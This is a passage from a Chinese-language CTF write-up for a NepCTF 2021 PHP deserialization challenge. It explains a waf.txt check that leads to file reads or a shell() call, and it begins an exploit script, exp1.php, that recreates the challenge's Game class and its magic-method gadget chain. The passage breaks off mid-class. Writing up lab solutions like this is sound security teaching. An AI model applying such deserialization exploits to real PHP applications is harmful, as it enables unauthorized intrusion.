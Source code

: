 ![test](nepctf2021/image-20210322160046909.png)

如图所示，存在waf.txt，`file_get_contents`为true，即存在waf.txt时会`file_get_contents($filename.".php");`，否则会`shell($content);`所以我们首先要利用伪协议读取`shell.php`的内容。

exp1.php如下

```php
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

//    public function __construct()
//    {
//        $this->username='user';
//        $this->password='user';
//    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
```